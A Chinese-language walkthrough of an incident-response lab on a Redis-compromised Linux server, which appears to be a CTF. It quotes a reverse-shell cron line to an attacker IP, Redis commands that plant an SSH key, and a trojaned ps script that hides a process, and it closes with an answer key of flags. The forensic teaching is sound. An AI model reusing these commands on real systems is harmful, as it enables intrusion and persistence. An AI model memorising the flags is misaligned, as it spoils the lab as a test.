​​

**尝试提交，发现正确；（藏的可真深啊！）**

​​

得到；

	flag{XJ_78f012d7-42fc-49a8-8a8c-e74c87ea109b}

**还有一种方法，也可以直接找到flag，是的没错直接过滤一下即可；**

提取字符“flag”

	strings exp.so | grep "flag"

**前提是要能想到flag，一般来说还是很难想到的，还是建议大家老实使用010，或者记事本这样更便于分析细节；**

​​

#### 步骤#3

##### 通过本地 PC SSH到服务器并且分析黑客反弹 shell 的IP 为多少,将反弹 shell 的IP 作为 FLAG 提交;

解题思路；

> 题目让我们找到黑客反弹shell的IP是啥作为flag进行提交，那我们可以查看一下当前用户的定时任务那一些，如果黑客通过定时任务(cron job)进行持久化攻击，他们可能会在 crontab 中留下定时执行的恶意脚本、命令或反弹 shell 的配置。因此，通过检查 `crontab -l`​，很可能会发现黑客设置的定时任务，从而找到恶意活动的迹象，那就试试呗。

那我们使用命令：

	crontab -l

得到；

​​

那是什么意思呢？我们来简单分析一下；

**这行定时任务每分钟执行一次一个反弹 shell 命令，通过**  **​`/bin/sh`​**​ **连接到 IP 地址** **​`192.168.100.13`​**​ **的 7777 端口。这是一种典型的反弹 shell 技术，黑客利用它在目标系统上获得一个远程 shell。**

具体来说就是：

这个定时任务每分钟执行一次，执行的命令是：

	/bin/sh -i >& /dev/tcp/192.168.100.13/7777 0>&1

这个命令的作用是启动一个交互式 shell (`/bin/sh -i`​) 并将其输入输出重定向到指定的 IP 地址和端口（`192.168.100.13:7777`​）。具体来说：

* ​`-i`​ 选项表示启动一个交互式 shell。
* ​`>& /dev/tcp/192.168.100.13/7777`​ 使用 Bash 的网络重定向特性，将标准输出和标准错误重定向到 `192.168.100.13`​ 的 7777 端口。
* ​`0>&1`​ 表示将标准输入重定向到标准输出。

**这种命令通常用于创建一个反向 shell，也称为反弹 shell。通过这种方式，黑客可以在目标主机上获得一个远程 shell 访问权限，并能够执行任意命令。**

题目只让我们提交黑客的IP，而且前面日志里面也多次出现这个IP，所以这里就不言而喻了；

	flag{192.168.100.13}

#### 步骤#4

##### 通过本地 PC SSH到服务器并且溯源分析黑客的用户名，并且找到黑客使用的工具里的关键字符串(flag{黑客的用户-关键字符串} 注关键字符串 xxx-xxx-xxx)。将用户名和关键字符串作为 FLAG提交

解题思路；

> 题目让我们溯源查找黑客的用户名，并且找到黑客使用工具的关键字符串，那这里我们检查 一下SSH 登录日志，通常 SSH 登录的日志记录在系统的安全日志文件中，但是，SSH（Secure Shell）提供了两种主要的登录验证方式；

**1. 密码验证（Password Authentication）**

**工作原理：**

* 用户在登录时需要提供用户名和密码。
* 服务器接收用户名和密码后，验证它们是否匹配预先存储的凭证。
* 如果用户名和密码正确，用户即可登录服务器。

**2. 公钥验证（Public Key Authentication）**

**工作原理：**

* 用户生成一对 SSH 密钥对，包括私钥和公钥。
* 公钥被上传并存储在目标服务器的用户账户下的 `~/.ssh/authorized_keys`​ 文件中。
* 用户在登录时使用其私钥进行身份验证。
* 服务器通过匹配用户提供的私钥和存储的公钥来验证用户身份。
* 如果匹配成功，用户即可登录服务器。

所以我们可以从两点看出；

* **Redis 配置**：黑客利用 Redis 的未授权访问或其他漏洞，将自己的公钥写入了服务器的 `~/.ssh/authorized_keys`​ 文件中，从而可以使用 SSH 公钥验证进行登录。
* **登录日志**：SSH 登录日志通常会显示使用的验证方式。虽然在提供的日志中没有明确显示公钥验证，但结合 Redis 被利用的情况，可以推测黑客可能通过这种方式获取了访问权限。

**也就是说会向靶机上写入SSH密钥，那我们查看一下靶机的/root/.ssh；**

查看root是否有.ssh文件存在；

	ls -la

得到；

​​

**确实存在，那我们进入查看；**

​​

**确实存在authorized_keys公钥，那就查看分析；**

	cat authorized_keys

得到；

​​

简单分析一下；

	REDIS0009	redis-ver5.0.1  
	redis-bits????etOused-memXU  
	??preamble~??shB9

	ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDDh4OEFvyb4ubM7YPvzG/FfO6jE4PjLdmuCUdGP+aeLeJB5SXYT6zHkU9wlfY/Fo4UuBlhTqBaS6Ih/Wf62KepzrMsTQQYcSG/Xp8lgFzVCCFAk7apzxfRCPNk1pxaGiEF6MPoCmUu1UhC3ta3xyh2c4KZls0hyFN9JZsuD+siT8KVqm856vQ+RaTrZi3ThMa5gbeH+v3ZUcO35ZfMKor/uWXffHT0Yi06dsgIMN3faIiBrd1Lg0B5kOTaDq3fHs8Qs7pvR9C4ZTm2AK/Oct8ULdsnfS2YWtrYyC8rzNip9Wf083ZY1B4bj1UoxD+QwgThh5VP3xgRd9KDSzEYIBabstGh8GU5zDxr0zIuhQM35I0aALvojXl4QaaEnZwpqU3ZkojPG2aNC0QdiBK7eKwA38Gk+V8DEWc/TTkO+wm3aXYdll5sPmoWTAonaln1nmCiTDn4jKb73DxYHfSgNIDpJ6fS5kbWL5UJnElWCrxzaXKHUlqXJj3x81Oz6baFNv8= xj-test-user

1. **Redis 标识**：

    ​`REDIS0009    redis-ver5.0.1`​

    这一部分是 Redis 数据库文件的头部信息，表明这个文件是 Redis 数据库文件格式版本9，Redis 版本5.0.1。
2. **公钥部分**：

    ​`ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDDh4OEFvyb4ubM7YPvzG/FfO6jE4PjLdmuCUdGP+aeLeJB5SXYT6zHkU9wlfY/Fo4UuBlhTqBaS6Ih/Wf62KepzrMsTQQYcSG/Xp8lgFzVCCFAk7apzxfRCPNk1pxaGiEF6MPoCmUu1UhC3ta3xyh2c4KZls0hyFN9JZsuD+siT8KVqm856vQ+RaTrZi3ThMa5gbeH+v3ZUcO35ZfMKor/uWXffHT0Yi06dsgIMN3faIiBrd1Lg0B5kOTaDq3fHs8Qs7pvR9C4ZTm2AK/Oct8ULdsnfS2YWtrYyC8rzNip9Wf083ZY1B4bj1UoxD+QwgThh5VP3xgRd9KDSzEYIBabstGh8GU5zDxr0zIuhQM35I0aALvojXl4QaaEnZwpqU3ZkojPG2aNC0QdiBK7eKwA38Gk+V8DEWc/TTkO+wm3aXYdll5sPmoWTAonaln1nmCiTDn4jKb73DxYHfSgNIDpJ6fS5kbWL5UJnElWCrxzaXKHUlqXJj3x81Oz6baFNv8= xj-test-user`​

    这一部分是一个标准的SSH公钥，格式为`ssh-rsa`​，后面是公钥数据，最后是用户名注释`xj-test-user`​。

直接百度一下这个用户，看看有什么线索；

​​

**第一个点进去查看一下；**

​​

**有三个，挨个进行分析；**

​​

**第一个就是，尝试提交，发现正确；（费了老半天劲终于让我找到了。。。）**

​​

按照提交格式来，flag{黑客的用户-关键字符串}；

	flag{xj-test-user-wow-you-find-flag}

###### 拓展1.2

**推测攻击步骤**

1. **利用 Redis 写入**：

    * 黑客利用 Redis 未授权访问或其他漏洞，将上述内容写入 Redis 数据库，特别是将公钥写入服务器的 `~/.ssh/authorized_keys`​ 文件。
    * 这可以通过以下 Redis 命令实现：
    * ‍

    CONFIG SET dir /root/.ssh/  
    CONFIG SET dbfilename "authorized_keys"  
    SAVE`

    * 通过上述命令，Redis 会在指定目录下创建或覆盖 `authorized_keys`​ 文件，将内容写入其中。
2. **使用公钥登录**：

    * 黑客使用对应的私钥，通过 SSH 公钥验证方式登录到目标服务器，绕过密码验证。

**从日志推断公钥验证**

虽然提供的日志中没有明确提到使用公钥验证，但结合 Redis 配置和攻击手法，可以推断以下过程：

* 黑客通过 Redis 写入公钥。
* 随后通过 SSH 使用公钥验证成功登录服务器。

**结论**

**从提供的公钥内容可以推断，黑客利用 Redis 漏洞或未授权访问，将自己的公钥写入目标服务器的**  **​`~/.ssh/authorized_keys`​**​ **文件，然后使用 SSH 公钥验证方式成功登录。这种方法避免了密码验证的步骤，更加隐蔽且难以检测。（没得说，确实牛）**

#### 步骤#5

##### 通过本地 PC SSH到服务器并且分析黑客篡改的命令,将黑客篡改的命令里面的关键字符串作为 FLAG 提交;

解题思路；

题目让我找出黑客篡改的命令，有很多也是要一个一个进行排查；

* **审查系统日志**：

  * 查看系统的认证日志（如`/var/log/auth.log`​或`/var/log/secure`​），寻找异常的登录记录，特别是来自非授权用户或IP的登录尝试。
* **审查命令历史**：

  * 使用`history`​命令查看最近执行的命令列表，检查是否有不正常的或未经授权的命令执行记录。
* **检查文件完整性**：

  * 使用工具如`Tripwire`​、`AIDE`​等检查关键系统文件的完整性和一致性，寻找是否有被篡改的文件或目录。
* **分析系统文件的时间戳和哈希值**：

  * 检查系统文件的修改时间戳和哈希值是否与预期的一致。异常的时间戳或哈希值可能表明文件已被篡改。
* **检查系统路径中的命令**：

  * 检查系统中的关键命令（如`/bin`​、`/sbin`​、`/usr/bin`​等目录下的命令），确保其内容和哈希值与预期一致。
* **扫描系统和进程**：

  * 使用安全扫描工具（如`rkhunter`​、`chkrootkit`​等）扫描系统和进程，寻找已知的后门、木马或恶意程序。
* **分析网络流量和连接**：

  * 使用网络监控工具（如`tcpdump`​、`Wireshark`​等）分析服务器的网络流量和连接，查看是否有与恶意活动相关的异常流量或连接。
* **检查定时任务和启动项**：

  * 检查定时任务（通过`crontab -l`​查看）和启动项（如`/etc/init.d`​、`/etc/systemd/system`​等），查找是否有恶意脚本或命令。
* **审查日志文件**：

  * 检查应用程序的日志文件，特别是涉及到系统命令执行或管理员操作的日志，查找异常活动或错误信息。
* **使用安全工具和服务**：

  * 借助安全信息与事件管理系统（SIEM）或安全运营中心（SOC）等工具，进行全面的安全事件分析和响应。

**这一套下来不出意外的话，包查到，这里我就不多说了，直接说结果吧，前面几个都排查了，没什么问题，直到排查到“系统路径中的命令”时，发现了有一点特别的地方；**

​​

**往下一点一点慢慢分析，发现ps有问题；**

​​

简单分析一下为什么；

> 从文件列表中可以看到，`ps`​命令的权限为`-rwxrwxrwx`​，这表示该命令具有读取、写入和执行权限，且对所有用户都是可读写可执行的。

1. **异常的权限设置**：

    * 正常情况下，系统命令像`ps`​应该有限制的权限，通常为`-rwxr-xr-x`​（所有者可读写执行，组和其他用户只可读和执行）。权限为`-rwxrwxrwx`​可能表明被人为更改过。

跟进继续分析，再次确认；

	cat ps

得到；

​​

简单分析一下内容；

	#/bin/bash  
	oldifs="$IFS"  
	IFS='\$n'  
	result=$(ps_$1 $2$3|grep -v 'threadd' )  
	for v in $result;  
	do  
	        echo -e "$v\t";  
	done  
	IFS="$oldifs"  
	#//c195i2923381905517d818e313792d196

**简单来说这段脚本是用来调用名为**​**​`ps_`​** ​**的命令，并对其输出进行处理和过滤。**

1. **脚本解析**：

    * ​`#!/bin/bash`​ 表示这是一个 Bash 脚本，用来执行后续的命令。
2. **变量设置**：

    * ​`oldifs="$IFS"`​：保存旧的字段分隔符（IFS）值。
    * ​`IFS='\$n'`​：设置新的字段分隔符为`\$n`​（这里可能是一个笔误，正常应该是换行符`\n`​，但写法上看起来可能是在尝试定义一个特殊分隔符）。
3. **命令执行和处理**：

    * ​`result=1 3|grep -v 'threadd' )`​：执行 `ps_`​ 命令，并使用 `grep`​ 命令过滤掉包含'threadd'的行，将结果存储在 `result`​ 变量中。
    * ​`for v in $result;`​：对 `$result`​ 中的每个变量 `v`​ 进行循环处理。
    * ​`echo -e "$v\t";`​：输出每个变量 `v`​，并在末尾添加一个制表符。
4. **恢复原始设置**：

    * ​`IFS="$oldifs"`​：恢复原始的字段分隔符设置。
5. **注释部分**：

    * ​`#//c195i2923381905517d818e313792d196`​：可能是作者用来标记或识别版本或修改的一部分。（待会提交一下试试看）
6. **分析总结**：

    * 这段脚本似乎是为了获取 `ps_`​ 命令的输出，并按行处理和输出结果。`ps_`​ 命令的具体功能和输出内容在这里并未详细说明，但可以我们可以推测这是一个对系统进程进行查询和处理的脚本。

**总体来说，这段脚本看起来是为了执行某个定制的进程查询命令，并对输出进行简单的格式化和显示。**

尝试提交注释内容，发现提交正确；

	flag{c195i2923381905517d818e313792d196}

‍

# 四、flag

‍

1、通过本地 PC SSH到服务器并且分析黑客攻击成功的 IP 为多少,将黑客 IP 作为 FLAG 提交;

	flag{192.168.100.20}

2、通过本地 PC SSH到服务器并且分析黑客第一次上传的恶意文件,将黑客上传的恶意文件里面的 FLAG 提交;

	flag{XJ_78f012d7-42fc-49a8-8a8c-e74c87ea109b}

3、通过本地 PC SSH到服务器并且分析黑客反弹 shell 的IP 为多少,将反弹 shell 的IP 作为 FLAG 提交;

	flag{192.168.100.13}

4、通过本地 PC SSH到服务器并且溯源分析黑客的用户名，并且找到黑客使用的工具里的关键字符串(flag{黑客的用户-关键字符串} 注关键字符串 xxx-xxx-xxx)。将用户名和关键字符串作为 FLAG提交；

	flag{xj-test-user-wow-you-find-flag}

5、通过本地 PC SSH到服务器并且分析黑客篡改的命令,将黑客篡改的命令里面的关键字符串作为 FLAG 提交;

	flag{c195i2923381905517d818e313792d196}
